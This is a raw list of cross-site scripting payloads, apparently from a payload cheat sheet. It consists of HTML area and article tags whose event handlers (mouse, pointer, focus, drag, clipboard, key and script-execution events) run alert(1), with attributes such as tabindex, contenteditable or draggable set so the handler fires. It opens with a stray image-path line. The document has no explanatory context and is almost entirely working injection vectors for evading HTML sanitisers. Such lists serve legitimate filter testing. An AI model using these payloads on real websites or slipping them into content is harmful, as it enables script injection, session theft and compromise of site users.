 <area oncontextmenu="alert(1)" style=display:block>test</area>
<area oncopy=alert(1) value="XSS" autofocus tabindex=1 style=display:block>test
<area oncut=alert(1) value="XSS" autofocus tabindex=1 style=display:block>test
<area ondblclick="alert(1)" autofocus tabindex=1 style=display:block>test</area>
<area onfocusout=alert(1) id=x tabindex=1 style=display:block>test</area><input value=clickme>
<area onkeydown="alert(1)" contenteditable style=display:block>test</area>
<area onkeypress="alert(1)" contenteditable style=display:block>test</area>
<area onkeyup="alert(1)" contenteditable style=display:block>test</area>
<area onmousedown="alert(1)" style=display:block>test</area>
<area onmouseenter="alert(1)" style=display:block>test</area>
<area onmouseleave="alert(1)" style=display:block>test</area>
<area onmousemove="alert(1)" style=display:block>test</area>
<area onmouseout="alert(1)" style=display:block>test</area>
<area onmouseover="alert(1)" style=display:block>test</area>
<area onmouseup="alert(1)" style=display:block>test</area>
<area onmousewheel=alert(1) style=display:block>requires scrolling
<area onpaste="alert(1)" contenteditable>test</area>
<area onpointerdown=alert(1) style=display:block>XSS</area>
<area onpointerenter=alert(1) style=display:block>XSS</area>
<area onpointerleave=alert(1) style=display:block>XSS</area>
<area onpointermove=alert(1) style=display:block>XSS</area>
<area onpointerout=alert(1) style=display:block>XSS</area>
<area onpointerover=alert(1) style=display:block>XSS</area>
<area onpointerrawupdate=alert(1) style=display:block>XSS</area>
<area onpointerup=alert(1) style=display:block>XSS</area>
<article draggable="true" ondrag="alert(1)" style=display:block>test</article>
<article draggable="true" ondragend="alert(1)" style=display:block>test</article>
<article draggable="true" ondragenter="alert(1)" style=display:block>test</article>
<article draggable="true" ondragleave="alert(1)" style=display:block>test</article>
<article draggable="true" ondragstart="alert(1)" style=display:block>test</article>
<article id=x style="transition:outline 1s" ontransitionend=alert(1) tabindex=1></article>
<article id=x tabindex=1 onfocus=alert(1)></article>
<article id=x tabindex=1 onfocusin=alert(1)></article>
<article onafterscriptexecute=alert(1)><script>1</script>
<article onbeforecopy="alert(1)" contenteditable>test</article>
<article onbeforecut="alert(1)" contenteditable>test</article>
<article onbeforescriptexecute=alert(1)><script>1</script>
<article onblur=alert(1) id=x tabindex=1 style=display:block>test</article><input value=clickme>
<article onclick="alert(1)" style=display:block>test</article>
<article oncontextmenu="alert(1)" style=display:block>test</article>
<article oncopy=alert(1) value="XSS" autofocus tabindex=1 style=display:block>test
<article oncut=alert(1) value="XSS" autofocus tabindex=1 style=display:block>test
<article ondblclick="alert(1)" autofocus tabindex=1 style=display:block>test</article>
<article onfocusout=alert(1) id=x tabindex=1 style=display:block>test</article><input value=clickme>
<article onkeydown="alert(1)" contenteditable style=display:block>test</article>
<article onkeypress="alert(1)" contenteditable style=display:block>test</article>
<article onkeyup="alert(1)" contenteditable style=display:block>test</article>
<article onmousedown="alert(1)" style=display:block>test</article>
<article onmouseenter="alert(1)" style=display:block>test</article>
<article onmouseleave="alert(1)" style=display:block>test</article>
<article onmousemove="alert(1)" style=display:block>test</article>
<article onmouseout="alert(1)" style=display:block>test</article>
<article onmouseover="alert(1)" style=display:block>test</article>
<article onmouseup="alert(1)" style=display:block>test</article>
<article onmousewheel=alert(1) style=display:block>requires scrolling
<article onpaste="alert(1)" contenteditable>test</article>
<article onpointerdown=alert(1) style=display:block>XSS</article>
<article onpointerenter=alert(1) style=display:block>XSS</article>
<article onpointerleave=alert(1) style=display:block>XSS</article>
<article onpointermove=alert(1) style=display:block>XSS</article>
<article onpointerout=alert(1) style=display:block>XSS</article>
<article onpointerover=alert(1) style=display:block>XSS</article>
<article onpointerrawupdate=alert(1) style=display:block>XSS</article>